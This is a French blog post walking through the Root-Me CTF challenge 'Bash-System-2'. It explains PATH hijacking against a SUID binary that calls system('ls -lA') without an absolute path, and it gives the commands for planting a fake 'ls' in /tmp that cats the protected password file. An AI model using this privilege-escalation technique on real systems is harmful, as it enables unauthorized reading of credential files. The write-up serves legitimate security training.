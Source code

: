 ```yaml
---
title: "RootMe App-Script/Bash-System-2"
seoTitle: "RootMe App-Script/Bash-System-2"
datePublished: Mon Jun 09 2025 22:49:08 GMT+0000 (Coordinated Universal Time)
cuid: cmbpop0sd000102l5h9ns2pan
slug: rootme-app-scriptbash-system-2
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1749504538459/36c14397-4060-42a6-8c24-02584a9f4010.png
tags: bash, cybersecurity-1, shell-script, root-me

---
```


Lien : [https://www.root-me.org/fr/Challenges/App-Script/ELF32-System-2](https://www.root-me.org/fr/Challenges/App-Script/ELF32-System-2)

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749505028969/8161ee5c-7590-496b-853f-cb2c6b78550e.png align="center")

On veut pouvoir lire le mot de passe du fichier `.passwd` mais il n’est lisible que par le propriétaire du fichier `app-script-ch12-cracked`. Le code source du fichier `ch12.c` utilise la fonction `system()` pour lister le répertoire du fichier `.passwd`. Par contre la commande `ls -lA` est appelé dans la fonction `system()` sans spécifier le chemin absolu, c’est-à-dire `/bin/ls`. On peut donc créer une fausse commande `ls -lA`, mais qui sera en réalité une commande `cat` puis l’injecter dans la variable d’environnement `PATH`. Puisque le fichier `ch12` a le binaire SUID activé, il peut s’exécuter avec les droits du propriétaire. Quand la commande `ls -lA` sera exécutée par la commande `system()`, le shell regardera au niveau des variables d’environnement PATH puis cherche la commande `ls` dans les répertoires. La commande qu’on aura manipulé sera donc exécutée à la place.

Créér le répertoire dans /tmp/script

```bash
mkdir /tmp/script
nano /tmp/script/ls
```

Écrire ensuite le script pour lire le fichier `.passwd`.

```bash
#!/bin/bash
cat /challenge/app-script/ch12/.pass
```

Rendre le script ls exécutable

```bash
chmod +x /tmp/script/ls
```

Modifier la variable d’environnement PATH pour inclure notre script

```bash
export PATH=/tmp/script:$PATH
```

En vérifiant avec la command `which ls`, on voit que que le script est bien trouvé avant la commande ls.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749509148631/6dd13ac1-3b25-4e01-800c-c3d9d4bc464c.png align="center")

On peut maintenant lire le fichier.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1749509071532/4f6bdf63-3c6c-4555-81b5-548700be846c.png align="center")